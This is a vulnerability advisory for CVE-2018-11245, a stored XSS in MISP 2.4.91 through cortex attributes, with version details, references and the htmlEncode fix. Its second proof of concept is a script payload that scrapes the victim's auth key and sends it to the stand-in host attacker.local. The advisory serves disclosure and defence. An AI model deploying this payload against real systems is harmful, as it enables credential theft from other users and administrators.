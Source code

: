# MISP - Malware Information Sharing Platform
## XSS with cortex type attributes

|  |  |
|---|---|
| **Vulnerability** | XSS with cortex type attributes | 
| **Vendor** | CIRCL (Open Source) |
| **Product** | MISP - Malware Information Sharing Platform & Open Standards For Threat Information Sharing - https://www.misp-project.org/ |
| **Vulnerable version** | 2.4.91 |
| **Fixed version** | 2.4.92 |
| **CVE** | CVE-2018-11245 |
| **CVSS Score** | 6.4 Medium |
| **CVSS Vector** | CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N |


## References
* https://github.com/MISP/MISP/commit/5efc07b12f82301a6086fd3433fedd69fe7119d3
* https://www.cvedetails.com/cve/CVE-2018-11245/

## Description
This is very dangerous because every user with permissions to add attributes can attack any other user including administrator exfiltrating for example auth key.  
Attack requires victim to visit crafted event and click on the attribute but is very easy to conduct.  

### PoC
Easiest way to reproduce it:

1. Create an event
2. Add an attribute
```
    Category: External analysis
    Type: cortex
    Distribution: Inherit event
    Value:
    {
      "jsonrpc": "2.0",
      "result": "Faketext<script>alert('XSS');</script>",
      "id": 1
    }
```
3. Click on the value of newly created attribute (Cortex object)

**Result:**  
![XSS alert](xss.png "XSS Alert")  

### PoC with stealing auth key

Value of the cortex attribute:
```json
{
  "jsonrpc": "2.0",
  "result": "Faketext<script>$.get('/users/view/me',function(d){pos_start = d.indexOf('<h2>User</h2>');pos_end=d.indexOf(decodeURI('%3Cdiv%20class=%22actions%20debugOff%20sideMenu%22%3E'), pos_start);if(pos_start > pos_end) pos_end = pos_start*99;interested = d.substring(pos_start, pos_end);$.get('http://attacker.local/'+escape(interested));});</script>",
  "id": 1
}
```

Here is a fix:
```
root@misp:/var/www/MISP/app/webroot/js# diff misp.js misp.js.fix
```
```diff
3163c3163
<       cortex_data = JSON.stringify(cortex_data, null, 2);
---
>       cortex_data = htmlEncode(JSON.stringify(cortex_data, null, 2));
```